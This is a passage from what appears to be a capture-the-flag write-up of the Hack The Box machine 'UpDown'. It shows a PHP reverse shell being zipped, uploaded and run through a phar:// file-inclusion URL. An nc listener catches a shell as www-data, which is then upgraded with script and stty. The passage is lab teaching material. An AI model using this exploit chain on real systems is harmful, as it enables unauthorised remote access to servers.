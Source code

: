 

I'll zip it:



    oxdf@hacky$ zip rev.0xdf rev.php 
      adding: rev.php (deflated 35%)



And upload it. Now I trigger it just like with `phpinfo` above, getting
the latest uploads directory, and visiting
`/?page=phar://uploads/c96c440052e65f8e167cfe6248981ad9/rev.0xdf/rev`.

There's a connection at my listening `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.177 60210
    bash: cannot set terminal process group (907): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@updown:/var/www/dev$ 



I'll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q)
with `script` and `stty`:



    www-data@updown:/var/www/dev$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@updown:/var/www/dev$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@updown:/var/www/dev$ 



## Shell as developer

### Enumeration

#### Web Directories

www-data's home is `/var/www`. There are two sites set up:



    www-data@updown:/var/www$ ls
    dev .md


